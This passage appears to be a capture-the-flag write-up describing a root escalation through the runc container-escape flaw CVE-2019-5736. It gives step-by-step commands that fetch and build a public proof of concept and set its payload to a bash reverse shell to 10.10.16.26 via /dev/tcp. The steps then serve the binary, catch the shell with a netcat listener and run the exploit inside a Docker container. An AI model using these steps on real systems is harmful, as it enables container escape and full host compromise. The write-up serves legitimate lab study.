 ```bash
# Local Machine - Window 1
wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go
vim main.go
# Edit the following line:
# var payload = "#/bin/bash \n bash -i >& /dev/tcp/10.10.16.26/443 0>&1"
go build main.go
python3 -m http.server 8000
# Local Machine - Window 2
nc -nvlp 443

# Remote Machine - Window 1
sudo docker exec -it webapp-dev01 bash
cd /tmp
wget 10.10.16.26:8000/main # REPLACE with your IP
chmod +x main
./main
# Expected Output:
# [+] Overwritten /bin/sh successfully
# [+] Found the PID: 7993
# [+] Successfully got the file handle
# [+] Successfully got write handle &{0xc000392060}

# Remote Machine - Window 2
sudo docker exec -it webapp-dev01 /bin/sh # This make 
```

![Exploiting CVE-2019-5736](/assets/images/writeups/notebook_dockerexploit.png)

A root reverse shell was captured through netcat and I got access to `root` user.